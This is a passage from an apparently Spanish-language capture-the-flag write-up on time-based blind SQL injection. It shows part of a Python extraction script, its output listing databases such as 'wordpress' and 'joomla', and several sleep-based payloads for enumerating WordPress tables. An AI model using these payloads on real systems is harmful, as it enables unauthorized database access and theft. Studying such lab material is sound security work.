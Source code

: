 ```py
            # Si la diferencia de tiempos es mayor a 3 (recuerden que 0.1 era igual a 4 segundos) sabemos que ejecuto el SLEEP,
            # por lo tanto sabemos que esa letra hace parte de la respuesta
            if time_after - time_before > 3:
                result += letter
                p2.status(result)
                break
            # Si llega a este caracter, quiere decir que ya termino la palabra actual y va a la siguiente.
            elif letter == "£":
                break

        if letter == "£":
            break

    p2.success(result)
    result = ""

p1.success("d0Ne")
print("\nk3Ep br3ak1n6 4anYyyu...\n")
```

En la ejecución tenemos:

```bash
❭ python3 ex_db_name.py 
[+] Extrayendo bases de datos: d0Ne
[+] DB [0]: information_schema
[+] DB [1]: joomla
[+] DB [2]: joomladb
[+] DB [3]: mysql
[+] DB [4]: performance_schema
[+] DB [5]: sys
[+] DB [6]: wordpress
[+] DB [7]: wordpressdb
[+] DB [8]
[+] DB [9]

k3Ep br3ak1n6 4anYyyu...
```

Opa, tenemos 8 bases de datos 😬

Veamos primero las relacionadas con **WordPress**

#### SQL injection - Columnas WordPress DB

Acá estuve bastante rato atascado intentando cosas, ya que los payloads que había usado de explotaciones pasadas no me estaban funcionando, ni siquiera el payload "obvio" que debería ir después de encontrar las bases de datos:

```py
# Esta deberia ser la siguiente en explotar:

payload = "1 or IF(Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema='wordpress' LIMIT %d,1),%d,1))=%d,sleep(0.1),0);-- -" % (table_position, word_position, ord(letter))

# O de esta forma (que si la usamos para descubrir las bases de datos funciona):

payload = "1 or (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(table_name AS NCHAR),0x20)) "
payload += "FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='wordpress' LIMIT %d,1),%d,1))=%d) " % (table_position, word_position, ord(letter))
payload += "THEN 1 ELSE (SELECT 2 UNION SELECT 3) END))"
```

